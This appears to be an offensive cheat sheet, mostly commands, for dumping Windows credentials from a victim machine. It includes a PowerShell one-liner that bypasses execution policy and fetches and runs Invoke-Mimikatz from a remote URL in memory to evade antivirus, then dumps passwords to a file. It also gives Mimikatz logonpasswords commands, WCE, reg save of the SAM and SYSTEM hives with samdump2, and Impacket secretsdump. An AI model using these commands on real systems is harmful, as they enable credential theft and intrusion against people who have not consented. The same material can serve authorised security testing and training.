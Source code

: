 **Using Mimikatz:**
"Mimikatz is an open-source application that allows users to view and save authentication credentials like Kerberos tickets. Benjamin Delpy continues to lead Mimikatz developments, so the toolset works with the current release of Windows and includes the most up-to-date attacks."

A quick one-liner that uses PowerShell to load mimikatz to memory and bypass anti-virus (sometimes...)

```
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1>');Invoke-Mimikatz -DumpCreds" > C:\\Users\\%username\\Downloads\\pass.txt
```

Another why is to upload mimikatz to the victims PC and run mimikatz.exe as admin (we need to PE before that..)
By using the following commands:

```
privilege::debug
```

```
log {LOGFILENAME}
```

```
sekurlsa::logonpasswords
```

---

Using WCE:

```
- Download WCE:
	- <https://www.ampliasecurity.com/research/wce_v1_42beta_x64.zip>
- Run as administrator:
	- Wce.exe -w
```

---

Using Samdump2:
On the victim PC run the following commands with high privileges:

```
- Sam and System extract:
	- reg save hklm\\sam c:\\sam
	- reg save hklm\\system c:\\system
```

On our Linux machine run the following command on the files that we got from the victim PC:

```
- Using samdump2:
	- samdump2 system sam
```

---

Using Impacket:

```
- Install impacket:
	- git clone <https://github.com/SecureAuthCorp/impacket.git>
	- pip install -r requirements.txt
	- python setup.py install
```

```
- Using secretdump:
	- python secretdump.py -sam [SAM FILE] -system [System FILE] LOCAL
```

---
